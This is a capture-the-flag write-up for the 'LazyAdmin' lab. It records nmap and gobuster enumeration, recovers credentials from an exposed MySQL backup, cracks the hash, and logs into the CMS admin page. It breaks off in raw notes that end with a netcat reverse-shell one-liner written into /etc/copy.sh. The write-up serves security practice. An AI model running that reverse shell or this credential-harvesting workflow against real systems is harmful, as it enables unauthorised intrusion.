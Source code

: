 ### LazyAdmin


####  Lazy Admin

What is the user flag?


What is the root flag?


Enumeration:

Nmap scan:

Ports 22 and 80 are open:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.168 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 22:01 EDT
Nmap scan report for 10.10.35.168
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.38 seconds
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ 

```


Gobuster scan:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan.txt -t 64 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168:80
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:02:22 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.35.168/content/]
Progress: 935 / 220561 (0.42%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/19 22:02:38 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Going to /content page, we can see that there is a maintenance page, so we enumerate the /content page further using gobuster:


```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168/content" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan2.txt -t 64
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168/content
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:05:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.35.168/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.35.168/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.35.168/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.35.168/content/attachment/]
Progress: 7455 / 220561 (3.38%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                                                             
===============================================================
2022/08/19 22:06:28 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Using trial and error, we go to every pages, looking for possible attack vectors and low hanging fruit:

![[Pasted image 20220819220737.png]]

Looking further, we see that there is a mysql_backup folder and we will try to open the file:

![[Pasted image 20220819220836.png]]


Opening up the file, we can see that there are lying credentials on the file:

username: manager
password: hashed pw


![[Pasted image 20220819220959.png]]

Lets use crackstation to check the hash and hopefully we can get a plaintext password:

![[Pasted image 20220819221123.png]]

Password: Password123

Using those credentials, we can now login to 10.10.35.168/content/as/




admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh